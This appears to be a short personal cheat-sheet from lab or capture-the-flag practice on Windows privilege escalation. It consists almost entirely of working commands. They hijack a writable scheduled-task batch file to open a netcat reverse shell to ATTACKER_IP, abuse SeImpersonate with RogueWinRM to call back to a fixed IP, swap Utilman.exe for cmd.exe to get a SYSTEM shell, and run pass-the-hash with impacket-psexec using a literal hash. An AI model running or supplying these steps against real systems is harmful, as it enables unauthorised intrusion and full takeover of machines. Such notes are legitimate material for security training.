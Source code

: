 # sheduled task (like crond on linux)
```
schtasks /query /tn vulntask /fo list /v
```
check permissions
```
icacls c:\tasks\file
```
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)`
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\<taskfile>
```
## run a task
```
schtasks /run /tn <taskname>
```
# privilege
## SetImpersonate / SeAssignPrimaryToken
```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.65.95 4444"
```
## SeTakeOwnership
```
takeown /f C:\Windows\System32\Utilman.exe
```
```
icacls C:\Windows\System32\Utilman.exe /grant <actualUser>:F
```
```
 copy cmd.exe utilman.exe
```
 lock our screen from the start button and  proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges.
# Unpatched software
list installed programms
```
wmic product get name,version,vendor
```

#*└─#* (get admin shell)
```
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```

